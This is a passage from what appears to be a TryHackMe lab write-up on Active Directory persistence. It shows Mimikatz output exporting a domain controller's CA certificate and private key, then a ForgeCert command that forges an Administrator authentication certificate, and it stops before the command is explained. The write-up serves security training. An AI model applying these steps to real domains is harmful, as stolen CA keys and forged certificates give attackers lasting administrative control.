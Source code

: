 ```
        Type           : AT_KEYEXCHANGE (0x00000001)
        |Provider name : Microsoft RSA SChannel Cryptographic Provider
        |Key Container : te-DomainController-ccb1e691-6606-40a3-a87a-f549bdcd757c
        |Unique name   : 520b5ca0aec81961ad476939c6792c13_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        |Implementation: CRYPT_IMPL_SOFTWARE ;
        Algorithm      : CALG_RSA_KEYX
        Key size       : 2048 (0x00000800)
        Key permissions: 0000003b ( CRYPT_ENCRYPT ; CRYPT_DECRYPT ; CRYPT_READ ; CRYPT_WRITE ; CRYPT_MAC ; )
        Exportable key : NO
        Public export  : OK - 'local_machine_My_2_THMDC.za.tryhackme.loc.der'
        Private export : ERROR kull_m_crypto_exportPfx ; PFXExportCertStoreEx/kull_m_file_writeData (0x8009000b)

 3.
    Subject  :
    Issuer   : DC=loc, DC=tryhackme, DC=za, CN=za-THMDC-CA
    Serial   : 02000000000078856466521a82570200000010
    Algorithm: 1.2.840.113549.1.1.1 (RSA)
    Validity : 4/27/2022 8:32:18 PM -> 4/27/2023 8:32:18 PM
    Hash SHA1: 0d43237c50ccb446a07572545b5b4c8cf517682a
        Key Container  : 544fc312c893025e32795e06e74c4517_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        Provider       : Microsoft RSA SChannel Cryptographic Provider
        Provider type  : RSA_SCHANNEL (12)
        Type           : AT_KEYEXCHANGE (0x00000001)
        |Provider name : Microsoft RSA SChannel Cryptographic Provider
        |Key Container : te-KerberosAuthentication-21e4d1ee-54f7-4ca5-b36b-b2cecff9a609
        |Unique name   : 544fc312c893025e32795e06e74c4517_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        |Implementation: CRYPT_IMPL_SOFTWARE ;
        Algorithm      : CALG_RSA_KEYX
        Key size       : 2048 (0x00000800)
        Key permissions: 0000003b ( CRYPT_ENCRYPT ; CRYPT_DECRYPT ; CRYPT_READ ; CRYPT_WRITE ; CRYPT_MAC ; )
        Exportable key : NO
        Public export  : OK - 'local_machine_My_3_.der'
        Private export : ERROR kull_m_crypto_exportPfx ; PFXExportCertStoreEx/kull_m_file_writeData (0x8009000b)
```
In this output, the id `1` is the `CA`, and the exports of it will be the target. 
These files are exported:
```
PS C:\Users\Administrator\persist> ls
Directory: C:\Users\Administrator\persist
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/25/2023   9:22 PM           1423 local_machine_My_0_.der
-a----       10/25/2023   9:22 PM            939 local_machine_My_1_za-THMDC-CA.der
-a----       10/25/2023   9:22 PM           2685 local_machine_My_1_za-THMDC-CA.pfx
-a----       10/25/2023   9:22 PM           1534 local_machine_My_2_THMDC.za.tryhackme.loc.der
-a----       10/25/2023   9:22 PM           1465 local_machine_My_3_.der
```
The target are the public exports taken from the `CA`:
```
Public export  : OK - 'local_machine_My_1_za-THMDC-CA.der'
Private export : OK - 'local_machine_My_1_za-THMDC-CA.pfx'
```
To create certificates for user authentication, create
```
ForgeCert.exe --CaCertPath za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123
```
To break down the command:
